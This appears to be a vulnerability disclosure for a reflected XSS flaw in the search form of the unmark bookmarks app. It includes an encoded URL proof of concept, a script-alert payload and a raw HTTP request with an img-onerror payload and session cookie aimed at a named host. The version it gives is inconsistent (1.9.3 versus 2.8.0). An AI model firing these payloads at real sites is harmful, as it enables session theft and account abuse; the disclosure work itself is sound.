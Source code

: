 # XSS vulnerability in unmark v1.9.3 of file /searchform.php

**vender**:

- [cdevroe/unmark: An open source to do app for bookmarks.](https://github.com/cdevroe/unmark)

**SoftLink**:

- [Release 1.9.3 · cdevroe/unmark](https://github.com/cdevroe/unmark/releases/tag/v1.9.3)

**Vulnerable File**

- application\views\layouts\topbar\searchform.php

**Version**

- 2.8.0

### POC

http://localhost/marks/search?q=%22%3E%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E

```
"><script>alert('XSS')</script>
```



```
GET /marks/search?q=%22%3E%3C%2FA%3E%3CiMg+id%3D%27JBPoFOup%27+src%3D1+onerror%3D%27prompt%281%29%27%3E%3CA+href%3D%22 HTTP/1.1
Host: www.unmark17.top
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: BookEmDanno=1qvtcijlqa1kvgtlmq1slmqibjj2rds4
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate


```





![image-20250826020434520](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508260204728.png)





![image-20250826020856949](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508260208158.png)